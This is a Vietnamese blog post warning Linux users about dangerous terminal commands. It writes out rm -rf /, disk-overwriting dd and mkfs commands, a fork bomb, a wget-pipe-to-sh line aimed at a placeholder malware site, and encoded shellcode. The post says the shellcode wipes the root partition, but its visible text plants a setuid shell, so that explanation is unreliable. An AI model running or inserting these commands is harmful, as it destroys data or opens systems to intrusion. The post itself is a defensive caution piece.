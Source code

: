 ```yaml
---
thumbnail: "2020525-Caution-Command-Terminal.png"
layout: "post"
title: "Top các câu lệnh nguy hiểm trên linux ban cần chú ý khi sử dụng"
excerpt: "Như bạn đã biết, các câu lệnh trong Terminal thực sự rất hữu dụng và giúp cho người sử dụng có thể thao tác cực nhanh mà không cần phải qua GUI rườm rà."
author: Panadora
category: [unixlinux, terminal]
permalink: "/top-cac-cau-lenh-nguy-hiem-tren-linux-ban-can-chu-y-khi-su-dung.html"
---
```


<center><img class="img-thumbnail" width="550" src="{{site.url}}/image/2020525-Caution-Command-Terminal.png"></center><br>

Như bạn đã biết, các câu lệnh trong Terminal thực sự rất hữu dụng và giúp cho người sử dụng có thể thao tác cực nhanh mà không cần phải qua GUI rườm rà. Tuy nhiên, nó cũng có nhiều rủi ro nếu như bạn sử dụng nó sai cách hoặc bạn không hề biết bạn đang thực thi câu lệnh có độ nguy hiểm như thế nào đối với hệ thống.

Bài viết này sẽ sơ lược qua các câu lệnh cực kỳ nguy hiểm cho Linux, nếu các câu lệnh này được thực thi, bạn có thể bị mất toàn bộ dữ liệu trong máy hoặc hệ điều hành sẽ không bao giờ khởi động được nữa.

**Xin lưu ý một lần nữa, bài viết này chỉ có tính chất tham khảo, hạn chế hoặc không chạy các câu lệnh bên dưới để tránh tạo rủi ro gây mất mát dữ liệu hoặc hỏng HĐH**

**Lệnh: rm -rf**

Đây là 1 trong những cách nhanh nhất để xoá file và folder, nhưng nếu nhập sai hoặc bạn không hiểu bản chất của câu lệnh này là gì thì sẽ gây ảnh hưởng nặng nề đến hệ thống.

Một số cách sử dụng câu lệnh này như bên dưới:

**`rm <tên file>`** : xoá file cụ thể.<br>
**`rm -r`** : xoá toàn bộ folder, kể cả folder rỗng.<br>
**`rm -f`** : bắt buộc xóa file (f ở đây là từ force). Lệnh này bỏ qua các tập tin ko tồn tại và sẽ không hiện ra cảnh báo trước khi xoá. (vì là bắt buộc nên xoá các file **write protected** và **read only** luôn).<br>
**`rm -rf /`** : buộc xoá tất cả mọi thứ trong folder gốc, kể cả folder được bảo vệ.<br>
**`rm -rf *`** : buộc xoá tất cả mọi thứ trong folder bạn đang làm việc.<br>
**`rm -rf .`** : buộc xoá tất cả folder hiện tại và sub-folder.

**Lệnh: `<CÂU LỆNH> >` /dev/sda**

Câu lệnh bên trên sẽ ghi output của **`<CÂU LỆNH>`** được thực hiện lên ổ cứng (ở đây là /DEV/SDA) và sẽ ghi đè và xóa sổ toàn bộ dữ liệu có sẵn trong đó.

**Lệnh: `:(){:|:&};:`**

Lệnh này thực chất là 1 quả bom, nó thực thi bằng việc định nghĩa hàm ':' và hàm này tự gọi lại chính nó (đệ quy). Nó sẽ sao chép chính bản thân nó nhiều lần và liên tục, gây tràn bộ nhớ hệ thống, dẫn tới đóng băng hệ thống.

**Lệnh: `mv <TÊN FOLDER> /dev/null`**

Nếu bạn thực thi lệnh này, nó sẽ di chuyển **`<TÊN FOLDER>`** đến **`/dev/null`**. Mà nơi này chính là một "lỗ đen" đúng nghĩa. Mọi dữ liệu di chuyển đến đây đều biến mất mãi mãi.

**Lệnh: `wget http://trang_chua_ma_doc -O- | sh`**

Câu lệnh ở trên sẽ tải script từ một trang chữa mã độc và thực thi với lệnh SH

Hãy chắc chắn bạn tin tưởng với trang web ở trong câu lệnh này, đừng copy, paste và thực thi vô tội vạ các lệnh ở trên mạng.

**Lệnh: `mkfs.ext3 /dev/sda`**

Lệnh này thì sẽ format lại toàn bộ dữ liệu trong ổ cứng, dữ liệu chắn chắn sẽ biến mất hoàn toàn khi thực thi nó.

Một số câu lệnh tương tự dùng để format ổ cứng (cần quyền sudo)

- mkfs<br>
- mkfs.ext3<br>
- mkfs.bfs<br>
- mkfs.ext2<br>
- mkfs.minix<br>
- mkfs.msdos<br>
- mkfs.reiserfs<br>
- mkfs.vfat<br>

Riêng mkfs.cramfs tác dụng tương tự như không cần sudo.

**Lệnh `> <FILE>`**

Xoá toàn bộ nội dung của **`<FILE>`**.

**Lệnh: `^foo^bar`**

được sử dụng để chỉnh sửa lệnh chạy trước đó mà không cần phải gõ lại toàn bộ câu lệnh. Nhưng có thể gây rắc rối nếu bạn không kiểm tra kỹ lưỡng thay đổi trong câu lệnh ban đầu.

**Lệnh: `dd if=/dev/random of=/dev/sda`**

Câu lệnh trên sẽ xóa sạch ổ cứng và ghi dữ liệu rác vào. Tất nhiên! Hệ thống của bạn sẽ bị hỏng hoàn toàn và khả năng phục hồi gần như = 0

**NHỮNG CÂU LỆNH NGUY HIỂM ĐÃ ĐƯỢC MÃ HOÁ**

`char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;`

Hẳn bạn nghĩ lệnh trên không gây ra vấn đề gì, nhưng không! Lệnh bên trên sẽ xoá phân vùng gốc ổ cứng của bạn.

**Bạn tuyệt đối không được copy, paste và thực thi một trong các câu lệnh không rõ nguồn gốc từ Internet để tránh những thiệt hại gây ra cho Linux do sự bất cẩn của bản thân mình.**

~~ Bài viết có kham thảo từ các nguồn uy tín ~~
P/s: nếu mình có sai sót gì trong bài viết thì mong các bạn góp ý để mình có thể chỉnh sửa bài viết và hoàn thiện nó một cách tốt nhất nhé :)

Nguồn: [Linux Team Việt Nam (Official Group) Post 1](https://www.facebook.com/groups/linuxteamvietnam2018/permalink/856171831568486/)<br>
Nguồn: [Linux Team Việt Nam (Official Group) Post 2](https://www.facebook.com/groups/linuxteamvietnam2018/permalink/856981638154172/)

<hr style="background: #000;">